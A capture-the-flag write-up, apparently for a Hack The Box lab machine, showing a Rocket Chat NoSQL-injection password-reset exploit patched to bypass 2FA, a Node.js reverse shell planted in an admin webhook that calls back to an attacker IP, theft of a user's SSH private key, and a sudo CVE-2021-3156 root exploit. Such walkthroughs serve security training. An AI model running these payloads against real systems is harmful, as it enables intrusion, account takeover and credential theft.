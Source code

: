 # Rocket

```
# nmap -sCV -p- rocket.htb
Nmap scan report for rocket.htb (10.129.172.140)
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Rocket Hosting
3000/tcp open  ppp?
```
On port 3000 we can see a Rocket Chat login portal.

As well described in [SonarSource blog](https://blog.sonarsource.com/nosql-injections-in-rocket-chat), Rocket Chat is vulnerable to a NoSQL injection. By resetting the password of a normal user, then a admin account it is possible to execute arbitrary commands through the administration interface.
The exploit can be found [here](https://www.exploit-db.com/exploits/49960).

This exploit needs a low priv user email and an admin email. Those emails can be found on the website port 80.

![Users email addresses](img/email.png "Users email addresses")

Here we will use `emmap@rocket.htb` (low priv user) and `ezekiel@rocket.htb` (admin user). In the current case the exploit needs to be modified to remove 2FA. We applied the following patch:

```python
def changingadminpassword(url,token,code):
	#payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"'+code+'\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
[...]
def twofactor(url,email):
  [...]
  #return code
	return ""
```

```
$ python3 sploit.py -u emmap@rocket.htb -a ezekiel@rocket.htb -t http://rocket.htb:3000/
[+] Resetting emmap@rocket.htb password
[+] Password Reset Email Sent
Got: _
Got: _r
Got: _rn
Got: _rnZ
Got: _rnZc
Got: _rnZcF
Got: _rnZcF4
Got: _rnZcF4a
Got: _rnZcF4a2
Got: _rnZcF4a2J
Got: _rnZcF4a2JR
[...]
Got: _rnZcF4a2JRRP7xY_AGDxMjEOuKxKL-9XvYtAVHmhkO
[+] Got token : _rnZcF4a2JRRP7xY_AGDxMjEOuKxKL-9XvYtAVHmhkO
[+] Password was changed !
[+] Succesfully authenticated as emmap@rocket.htb
Got the code for 2fa: ices.totp is undefined :\n@:1:56\n@:1:49\n"}
[+] Resetting ezekiel@rocket.htb password
[+] Password Reset Email Sent
Got: n
Got: nO
Got: nOi
Got: nOi2
[...]
[+] Got token : nOi2zKQPCeLk-AJn3ApDl5JtzOtfnBn-SONT6oihZC0
[+] Admin password changed !
```

Once admin password changed we can login with username `admin` and password `P@$$w0rd!1234`.

We can add the following reverse shell on the `administration interface / integrations / web hook`:
```js
const require = console.log.constructor('return process.mainModule.require')();
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "10.10.14.27", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![RCE with the web hook](img/rce_admin.png "RCE with the web hook")

When hitting the Webhook URL(see screen above) the revshell is connecting back to us:

```
$ nc -nvlp 80
Listening on [0.0.0.0] (family 2, port 80)
Connection from 10.129.1.7 50358 received!
id
uid=1000(ezekiel) gid=1000(ezekiel) groups=1000(ezekiel)
```
We can grab ezekiel rsa key to get an fully operational shell:
```
cat /home/ezekiel/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsEzrkmU/V0/a5EzaBR58XHHtnI7azu003705Pz+2Z+Q3fD9G+K/g
[...]
```

Once connected to ezekiel we can get user flag. We also noticed the sudo version is vulnerable to CVE-2021-3156.
The exploit we used can be found [here](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot).
```
ssh ezekiel@rocket.htb -i ezekiel_id_rsa

ezekiel@rocket:~$ cat user.txt 
HTB{th3_p4ssw0rd_r3s3t_api_1s_n0t_r0ck_s0l1d}

ezekiel@rocket:/tmp$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
ezekiel@rocket:/tmp$ make
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:75:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   75 |     execve(argv[0], argv, env);
      |     ^~~~~~
mkdir libnss_X
gcc -g -fPIC -shared sice.c -o libnss_X/X.so.2
ezekiel@rocket:/tmp$ ./exploit
uid=0(root) gid=1000(ezekiel) groups=1000(ezekiel)
root@rocket:/tmp#
root@rocket:/tmp# cat /root/root.txt
HTB{4lw4ys_upgr4d3_y0ur_syst3ms}
```